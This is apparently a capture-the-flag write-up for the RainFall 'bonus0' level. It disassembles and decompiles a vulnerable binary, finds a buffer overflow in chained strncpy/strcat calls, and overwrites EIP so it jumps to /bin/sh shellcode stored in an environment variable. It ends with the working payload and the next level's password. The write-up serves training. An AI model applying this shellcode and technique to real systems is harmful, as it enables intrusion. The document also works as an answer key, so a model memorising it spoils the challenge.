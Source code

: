 # Bonus0

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   ebp
   0x080485a5 <+1>:	mov    ebp,esp
   0x080485a7 <+3>:	and    esp,0xfffffff0
   0x080485aa <+6>:	sub    esp,0x40
   0x080485ad <+9>:	lea    eax,[esp+0x16]
   0x080485b1 <+13>:	mov    DWORD PTR [esp],eax
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    eax,[esp+0x16]
   0x080485bd <+25>:	mov    DWORD PTR [esp],eax
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    eax,0x0
   0x080485ca <+38>:	leave  
   0x080485cb <+39>:	ret    
End of assembler dump.
```

```bash
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   ebp
   0x080484b5 <+1>:	mov    ebp,esp
   0x080484b7 <+3>:	sub    esp,0x1018
   0x080484bd <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484c0 <+12>:	mov    DWORD PTR [esp],eax
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>:	lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:	mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:	mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>:	lea    eax,[ebp-0x1008]
   0x080484f4 <+64>:	mov    DWORD PTR [esp],eax
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	mov    BYTE PTR [eax],0x0
   0x080484ff <+75>:	lea    eax,[ebp-0x1008]
   0x08048505 <+81>:	mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:	mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:	mov    DWORD PTR [esp],eax
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave  
   0x0804851d <+105>:	ret    
End of assembler dump.
```

```bash
(gdb) disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:	push   ebp
   0x0804851f <+1>:	mov    ebp,esp
   0x08048521 <+3>:	push   edi
   0x08048522 <+4>:	push   ebx
   0x08048523 <+5>:	sub    esp,0x50
   0x08048526 <+8>:	mov    DWORD PTR [esp+0x4],0x80486a0
   0x0804852e <+16>:	lea    eax,[ebp-0x30]
   0x08048531 <+19>:	mov    DWORD PTR [esp],eax
   0x08048534 <+22>:	call   0x80484b4 <p>
   0x08048539 <+27>:	mov    DWORD PTR [esp+0x4],0x80486a0
   0x08048541 <+35>:	lea    eax,[ebp-0x1c]
   0x08048544 <+38>:	mov    DWORD PTR [esp],eax
   0x08048547 <+41>:	call   0x80484b4 <p>
   0x0804854c <+46>:	lea    eax,[ebp-0x30]
   0x0804854f <+49>:	mov    DWORD PTR [esp+0x4],eax
   0x08048553 <+53>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048556 <+56>:	mov    DWORD PTR [esp],eax
   0x08048559 <+59>:	call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:	mov    ebx,0x80486a4
   0x08048563 <+69>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048566 <+72>:	mov    DWORD PTR [ebp-0x3c],0xffffffff
   0x0804856d <+79>:	mov    edx,eax
   0x0804856f <+81>:	mov    eax,0x0
   0x08048574 <+86>:	mov    ecx,DWORD PTR [ebp-0x3c]
   0x08048577 <+89>:	mov    edi,edx
   0x08048579 <+91>:	repnz scas al,BYTE PTR es:[edi]
   0x0804857b <+93>:	mov    eax,ecx
   0x0804857d <+95>:	not    eax
   0x0804857f <+97>:	sub    eax,0x1
   0x08048582 <+100>:	add    eax,DWORD PTR [ebp+0x8]
   0x08048585 <+103>:	movzx  edx,WORD PTR [ebx]
   0x08048588 <+106>:	mov    WORD PTR [eax],dx
   0x0804858b <+109>:	lea    eax,[ebp-0x1c]
   0x0804858e <+112>:	mov    DWORD PTR [esp+0x4],eax
   0x08048592 <+116>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048595 <+119>:	mov    DWORD PTR [esp],eax
   0x08048598 <+122>:	call   0x8048390 <strcat@plt>
   0x0804859d <+127>:	add    esp,0x50
   0x080485a0 <+130>:	pop    ebx
   0x080485a1 <+131>:	pop    edi
   0x080485a2 <+132>:	pop    ebp
   0x080485a3 <+133>:	ret    
End of assembler dump.
```

Using https://dogbolt.org/?id=e155fda2-581f-4305-ad94-25b044fdefd5#Boomerang=1&Hex-Rays=159 to view a near source code :

```c
//----- (080484B4) --------------------------------------------------------
char *__cdecl p(char *dest, char *s)
{
  char buf[4104]; // [esp+10h] [ebp-1008h] BYREF

  puts(s);
  read(0, buf, 0x1000u);
  *strchr(buf, 10) = 0;
  return strncpy(dest, buf, 0x14u);
}

//----- (0804851E) --------------------------------------------------------
char *__cdecl pp(char *dest)
{
  char src[20]; // [esp+28h] [ebp-30h] BYREF
  char v3[28]; // [esp+3Ch] [ebp-1Ch] BYREF

  p(src, " - ");
  p(v3, " - ");
  strcpy(dest, src);
  dest[strlen(dest)] = ' ';
  dest[strlen(dest) + 1] = '\0';
  return strcat(dest, v3);
}

//----- (080485A4) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[42]; // [esp+16h] [ebp-2Ah] BYREF

  pp(s);
  puts(s);
  return 0;
}
```

First guess : Use `strcpy` to change the address it points to and set it to point to `puts` (GOT exploit) minus 4, then with `strcat` set the address of `system`.

It won’t work because we cannot inject the argument…

We probably should overflow `strcpy` and/or `strcat`. 

```bash
bonus0@RainFall:~$ (python -c 'print("A" * 20)'; python -c 'print("B" * 16)') | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
```
The first buffer should only contain the first user input, but if we write at least 20 chars, there is no space left for the null terminator, which means that the two local buffers that stores the first and the second input don't have any separation as they are adjacent.
In this situation : the first buffer contains a concatenation of the 2 user inputs and (only 20 chars of the first input are copied into it and 20 chars of the second input), the second buffer contains the second input, but segfaults with more than 16 chars if the first buffer is full because only 42 bytes are reserved for the `strcat`.

The `read` call reads 4096 bytes.

Syntax to fill stdin instead of inputing manually inside of gdb :

```bash
(gdb) r < <(python -c 'print("A" * 20)'; python -c 'print("B")')
```

After trying some combinations, it seems we cannot modify EIP with the first input buffer. We got the offset to override the EIP pointer with the second input buffer :

```bash
(gdb) r < <(python -c 'print("A" * 20)'; python -c 'print("A" * 9 + "B" * 4 + "C" * 7)')
Starting program: /home/user/bonus0/bonus0 < <(python -c 'print("A" * 4095 + "\n" + "A" * 9 + "B" * 4 + "C" * 7)')
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCC��� AAAAAAAAABBBBCCCCCCC���

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Because we have a limited space, we will store our shellcode inside of an environment variable, which address will be called inside of the overwritten EIP.

Actually there is a char that will be helpfull for us :

> 💡 The NOP sled (`0x90`) ensures that even if the exact address of the shellcode is not known, the program's execution flow will "slide" through the NOP instructions until it reaches the actual shellcode. This increases the chances of successful exploitation.
>

We use the shellcode from https://shell-storm.org/shellcode/files/shellcode-827.html, with an offset of 100 NOP sled to be sure to reach our shellcode via our env viariable even with a calculation’s error.

Env variable :

```bash
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

Address of env variable with env.c script, **the address may change !**

```bash
bonus0@RainFall:/tmp$ ./a.out SHELLCODE
0xbffff827
```

```bash
bonus0@RainFall:~$ (python -c 'print("A" * 20)'; python -c 'print("A" * 9 + "\x27\xf8\xff\xbf" + "C" * 7)'; cat) | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA'���CCCCCCC��� AAAAAAAAA'���CCCCCCC���
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```